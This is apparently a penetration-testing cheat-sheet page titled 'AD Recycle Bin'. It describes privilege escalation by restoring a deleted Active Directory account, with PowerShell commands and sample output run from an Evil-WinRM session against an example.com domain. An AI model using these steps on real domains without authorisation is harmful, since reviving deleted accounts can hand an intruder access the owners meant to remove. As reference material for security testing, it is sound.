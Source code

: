 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["Domain Controller", "AD Recycle Bin", "Active Directory", "Windows"]
---
```


### Privesc #1: Restore deleted AD account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD module

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> import-module activedirectory
```

#### 2. Query all deleted objects within domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=Another User\0ADEL:ebe15df5-e265-45ec-b7fc-359877217138,CN=Deleted Objects,DC=example,DC=com
Name              : Another User
                    DEL:ebe15df5-e265-45ec-b7fc-359877217138
ObjectClass       : user
ObjectGUID        : ebe15df5-e265-45ec-b7fc-359877217138
```

#### 3. Get all details for the deleted account

```console
Get-ADObject -filter { SAMAccountName -eq '<DELETED_USER>' } -includeDeletedObjects -property *
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter { SAMAccountName -eq 'another.user' }
-includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : example.com/Deleted Objects/Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
CN                              : Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
...[SNIP]...
```

#### 4. Restore the deleted account

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<NEW_USER>' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Restore-ADObject -Identity ebe15df5-e265-45ec-b7fc-359877217138 -NewName 'Another User2' -TargetPath 'CN=Users,DC=EXAMPLE,DC=COM'
```

{{< /tabcontent >}}
